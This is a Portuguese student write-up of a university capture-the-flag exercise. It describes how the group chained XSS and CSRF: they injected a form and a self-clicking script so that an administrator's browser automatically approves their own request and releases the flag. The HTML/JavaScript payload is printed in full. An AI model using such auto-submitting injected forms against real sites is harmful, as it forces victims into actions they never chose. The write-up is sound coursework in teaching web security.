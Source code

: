 ## Processo utilizado para resolver o CTF da Semana 6

Começamos por introduzir uma justificação qualquer:
![image](https://git.fe.up.pt/fsi/fsi2324/logs/l06g07/-/raw/main/images/xss_csrf_1.PNG)
Fomos redirecionados para a seguint página:
![image](https://git.fe.up.pt/fsi/fsi2324/logs/l06g07/-/raw/main/images/xss_csrf_2.PNG)
De seguida fomos à página onde o administrador aceita ou não os pedidos:
![image](https://git.fe.up.pt/fsi/fsi2324/logs/l06g07/-/raw/main/images/xss_csrf_3.PNG)
Aqui, inspecionamos a página e vimos o codigo dos botões que o administrador deve clicar:
![image](https://git.fe.up.pt/fsi/fsi2324/logs/l06g07/-/raw/main/images/xss_csrf_4.PNG)

Com isto, copiamos o codigo do botão de aceitar o pedido, retirando o disabled, e mudando o url da action, colocando o caminho completo, porque se não o fizessemos, iriamos ser redirecinados para a porta 5004, e mudamos o id do pedido para o id do novo pedido, resultando em:

`http://ctf-fsi.fe.up.pt:5005/request/ed6748362972777c957ca7f8495555b62bdee3aa/approve`

Além disso, adicionamos um script javascript que clica automaticamente no butão, que acabamos de adicionar. O resultado foi o seguinte:
```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/ed6748362972777c957ca7f8495555b62bdee3aa/approve" role="form">     
    <div class="submit">                  
        <input type="submit" id="giveflag" value="Give the flag">              
    </div> 
</form>
<script>document.getElementById("giveflag").click();</script>
```

![image](https://git.fe.up.pt/fsi/fsi2324/logs/l06g07/-/raw/main/images/xss_csrf_5.PNG)

![image](https://git.fe.up.pt/fsi/fsi2324/logs/l06g07/-/raw/main/images/xss_csrf_6.PNG)
![image](https://git.fe.up.pt/fsi/fsi2324/logs/l06g07/-/raw/main/images/xss_csrf_7.PNG)

`http://ctf-fsi.fe.up.pt:5004/request/ed6748362972777c957ca7f8495555b62bdee3aa`

![image](https://git.fe.up.pt/fsi/fsi2324/logs/l06g07/-/raw/main/images/xss_csrf_8.PNG)
